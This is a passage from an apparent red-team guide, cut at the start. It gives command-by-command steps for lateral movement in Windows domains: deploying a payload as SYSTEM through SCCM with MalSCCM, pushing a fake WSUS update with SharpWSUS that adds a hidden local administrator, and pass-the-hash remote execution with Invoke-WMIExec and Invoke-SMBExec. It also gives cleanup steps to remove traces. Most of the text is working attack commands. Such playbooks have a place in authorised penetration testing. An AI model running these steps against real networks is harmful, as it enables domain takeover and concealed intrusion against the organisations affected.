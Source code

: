 - 15\. Force the members of the created group to check in for an update which will execute payload\.exe as SYSTEM \(this can take some time and specialy for a natural check in\) \(MalSCCM\): `MalSCCM.exe checkin /groupname:<new created group> (/server:<PrimarySiteFQDN>)`
- 16\. After successful execution, clean up:
	- 1\. Remove the malicious payload\.exe from the share
	- 2\. Delete the created deployment and application \(MalSCCM\): `MalSCCM.exe app /cleanup /name:<name application> (/server:<PrimarySiteFQDN>)`
	- 3\. Delete the created group \(MalSCCM\): `MalSCCM.exe group /delete /groupname:<group name> (/server:<PrimarySiteFQDN>)`

#### _Abuse Windows Software Update Service \(WSUS\) for lateral movement:_
WSUS is a core part of Windows environments and is very often deployed in a way that would allow an attacker to use it to bypass internal networking restrictions\.
>A key consideration with WSUS lateral movement is that there is no way to control when a client checks in to fetch it's update\. You have to wait until patching day and that might happen once a day up to once a month\. Furthermore, the payload executable used must be signed by microsoft \(e\.g\. psexec\.exe, RunDLL32\.exe, MsBuild\.exe\)\. 
- 1\. From the context of an already compromised client/server, check if the WSUS is used \([SharpWSUS URL](https://github\.com/nettitude/SharpWSUS)\): `SharpWSUS.exe locate`
- 2\. Compromise the WSUS server and get local adminstrator access to the server
- 3\. Enumerate the WSUS deployment and identify the computers that are being managed and WSUS groups: `SharpWSUS.exe inspect`
- 4\. If using PsExec\.exe, upload it to disk of the WSUS server
- 5\. Create a malicious patch that will for example add a new local admin user: `SharpWSUS.exe create /payload:"C:\Users\Public\Documents\psexec.exe" /args:"-accepteula -s -d cmd.exe /c \"net user newadmin Password123! /add && net localgroup administrators newadmin /add\"" /title:"<update title>" /date:<2021-10-03>) (/kb:<500123> /rating:Important /description:<message about update> /url:https://microsoft.com`
- 6\. Create a new group, add a target computer \(e\.g\. DC\) to the group and approve the malicious patch for it: `SharpWSUS.exe approve /updateid:<returned update GUID from previous step> /computername:<FQDN target computer> /groupname:"<new group name>"`
- 7\. Verify if the group was created: `SharpWSUS.exe inspect`
- 8\. Now wait until the target computer request an update and track the update status in the meantime \(altough this isn't very reliable\) \(as long the update is not fetched the output will show 'Update info cannot be found'\): `SharpWSUS.exe check /updateid:<GUID update> /computername:<FQDN target computer>`
- 9\. Once the patch is installed, decline and delete the patch and remove the group: `SharpWSUS.exe delete /updateid:<GUID update> /computername:<FQDN target computer> /groupname:"<created group name>"`
- 10\. During step 5, a copy of the used signed Microsoft binary is placed in the webroot of the WSUS server\. Delete this binary and the one that was manually uploaded to disk\. 

#### _Abuse linked MSSQL servers for lateral movement:_
This attack vector is discribed in the [Lateral movement via linked MSSQL server](https://github.com/pietermiske/RT-Survival-Guides/blob/main/Guides/Database_exploitation.md#lateral-movement-via-linked-mssql-server) section.

#### _Remote command exection leveraging Pass-the-Hash:_
- Execute command via WMI \([Invoke\-WMIExec\.ps1](https://github.com/Kevin-Robertson/Invoke-TheHash)\): `Invoke-WMIExec -Target <target ip> -Domain <domain name>-Username <username> -Hash <NT hash> -Command "<command>" (-verbose)`
- Execute command via SMB \([Invoke\-SMBExec\.ps1](https://github.com/Kevin-Robertson/Invoke-TheHash)\): `Invoke-SMBExec -Target <target ip> -Domain <domain name>-Username <username> -Hash <NTLM hash> -Command "<command (e.g. PS EncodedLauncher or uploaded executable)>" -verbose`
